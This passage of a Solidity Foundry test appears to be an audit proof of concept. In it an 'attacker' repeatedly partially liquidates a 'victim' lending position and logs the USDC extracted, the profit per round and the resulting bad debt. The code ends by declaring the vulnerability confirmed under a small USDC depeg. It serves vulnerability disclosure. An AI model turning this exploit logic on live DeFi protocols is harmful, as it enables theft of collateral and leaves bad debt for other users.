 ```solidity 
                if (partialAmount > currentDebt) partialAmount = currentDebt;
                
                // ADDED: Check if liquidation would violate minimum debt
                uint256 minDebt = manager.minDebtAmount();
                if (currentDebt - partialAmount < minDebt && currentDebt > minDebt) {
                    partialAmount = currentDebt - minDebt; // Liquidate exactly to minimum
                }
                
                emit log_named_uint("Round", round);
                emit log_named_uint("  Remaining Debt", currentDebt / 1e18);
                emit log_named_uint("  Remaining Collateral", currentCollateral / 1e6);
                emit log_named_uint("  Liquidating Amount", partialAmount / 1e18);
                
                vm.startPrank(attacker);
                try liquidationMgr.liquidate(
                    victim,
                    address(usdc),
                    partialAmount,
                    0,
                    ILiquidationManager.LiquidateCalldata({
                        strategies: new address[](0),
                        strategiesData: new bytes[](0)
                    })
                ) returns (uint256 partialCollateralReceived) {
                    emit log_named_uint("  USDC Extracted", partialCollateralReceived / 1e6);
                    
                    uint256 partialValue = (partialCollateralReceived * 40) / 100;
                    uint256 partialProfit = partialValue > partialAmount ? partialValue - partialAmount : 0;
                    emit log_named_uint("  Round Profit (USD)", partialProfit / 1e18);
            
        } catch Error(string memory reason) {
                    emit log_named_string("  Liquidation stopped", reason);
                    break;
        }
        vm.stopPrank();
            }
        }
        
        // Final state
        {
            uint256 finalDebt = usdcRegistry.borrowed(victimHolding);
            uint256 finalCollateral = usdcRegistry.collateral(victimHolding);
            
            emit log("");
            emit log("=== FINAL POSITION STATE ===");
            emit log_named_uint("  Final Debt (jUSD)", finalDebt / 1e18);
            emit log_named_uint("  Final Collateral (USDC)", finalCollateral / 1e6);
            
            if (finalDebt > 0) {
                uint256 finalCollateralValue = (finalCollateral * 40) / 100;
                if (finalCollateralValue < finalDebt) {
                    uint256 badDebt = finalDebt - finalCollateralValue;
                    emit log_named_uint("  Bad Debt Created (USD)", badDebt / 1e18);
                    emit log("  VULNERABILITY CONFIRMED: Partial liquidations create bad debt");
                }
            }
        }
        
        emit log("");
        emit log("=== VULNERABILITY ANALYSIS ===");
        emit log("CONFIRMED: Liquidation mechanism exploitable with realistic parameters");
        emit log("CONFIRMED: Only 5.6% USDC depeg needed in production (vs 30% in test)");
```